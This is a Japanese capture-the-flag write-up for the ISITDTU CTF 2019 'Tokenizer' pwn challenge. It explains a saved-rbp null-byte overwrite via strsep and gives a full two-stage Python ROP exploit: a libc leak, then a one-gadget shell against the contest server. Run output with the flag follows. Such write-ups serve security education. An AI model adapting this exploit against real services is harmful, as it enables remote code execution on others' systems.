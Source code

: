 # [pwn 908pts] Tokenizer - ISITDTU CTF 2019
64ビットです。
```
$ checksec -f tokenizer
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      No	0		1	tokenizer
```
C++製バイナリで、入力した文字列を入力した文字で区切って出力するという単純なサービスです。一見脆弱性が無いので最大までデータを与えるとスタックのデータがでてきました。
入力用にバッファが0x400バイト用意されているのですが、その直後にsaved rbpがあるのでそれが文字列の一部と認識されるようです。またstrsepは区切り文字を見つけるとそこをnullにします。したがって、saved rbpを変更できます。main関数の終わりに`leave; ret;`があるのでrbpを変更すればその先にあるデータをリターンアドレスとして認識します。そこで、saved rbpの最下位1バイトをnullにすれば（たいていの場合）入力用バッファを指すようになるので、ここにROP chainを書き込んでおけば発動します。
まずはstd::coutでalarmのGOTアドレスを出力するROPを書き込みます。ただし、std::cinはnullバイトを受け付けないのでpayloadのnullは別の文字に置き換え、strsepを利用してnullにしましょう。

```python
from ptrlib import *

libc = ELF("./libc-2.27.so")
elf = ELF("./tokenizer")
libc_one_gadget = 0x10a38c
addr_main = 0x40133c
addr_st_cout = 0x404020
addr_cout = 0x401080
rop_pop_rsi_r15 = 0x00401499
rop_pop_rdi = 0x0040149b

# Stage 1: leak libc address
base_payload = b''
base_payload += p64(rop_pop_rsi_r15)
base_payload += p64(elf.got("alarm"))
base_payload += p64(0xdeadbeef)
base_payload += p64(rop_pop_rdi)
base_payload += p64(addr_st_cout)
base_payload += p64(addr_cout)
base_payload += p64(addr_main)
payload = base_payload * ((0x400 - 8) // len(base_payload))
payload = payload[16:0x400 - 0x80]
payload += b'\xaa' * (0x400 - len(payload)) # padding
payload = payload.replace(b'\x00', b'\xaa')

while True:
    #sock = Process("./tokenizer")
    sock = Socket("165.22.57.24", 32000)
    sock.recvuntil("characters): ")
    sock.sendline(payload)
    sock.recvuntil(": ")
    addr_stack = sock.recvline()[0x400:]
    logger.info("addr stack = " + hex(u64(addr_stack)))
    if addr_stack == b'' or addr_stack[0] == 0x10:
        logger.warn("Bad luck!")
        sock.close()
        continue
    target = bytes([addr_stack[0]]) + b'\xaa'
    #if target in payload or (0x400 - addr_stack[0]) % len(base_payload) != 0:
    if target in payload or addr_stack[0] != 0xf0:
        logger.warn("Bad luck!")
        sock.close()
        continue
    break

sock.recvuntil(": ")
sock.sendline(target)

# libc leak
sock.recvuntil(addr_stack[-2:] + b"\n")
recv = sock.recvuntil("Welcome")
libc_base = u64(recv.rstrip(b"Welcome")) - libc.symbol("alarm")
logger.info("libc base = " + hex(libc_base))

# Stage 2: One gadget
payload = p64(libc_base + libc_one_gadget) * (0x400 // 8)
payload = payload.replace(b'\x00', b'\xaa')
sock.recvuntil("characters): ")
sock.sendline(payload)
sock.recvuntil(": ")
target = b'\x38\xaa'
sock.recvuntil(": ")
sock.sendline(target)

sock.interactive()
```

いぇい。
```
$ python solve.py 
[+] __init__: Successfully connected to 165.22.57.24:32000
[+] <module>: addr stack = 0x7fff01e514e0
[+] <module>: Bad luck!
[+] close: Connection to 165.22.57.24:32000 closed
[+] __init__: Successfully connected to 165.22.57.24:32000
[+] close: Connection to 165.22.57.24:32000 closed
[+] <module>: addr stack = 0x7ffc44c91520
[+] <module>: Bad luck!
[+] close: Connection to 165.22.57.24:32000 closed
[+] __init__: Successfully connected to 165.22.57.24:32000
[+] close: Connection to 165.22.57.24:32000 closed
[+] <module>: addr stack = 0x7ffd71a0bdf0
[+] <module>: libc base = 0x7fde2b1c5000
[ptrlib]$ cat flag  
ISITDTU{H3LL0_H4PPY_W0RLD}[ptrlib]$
```

# 感想
今までに見たことの無い問題で面白かったです。
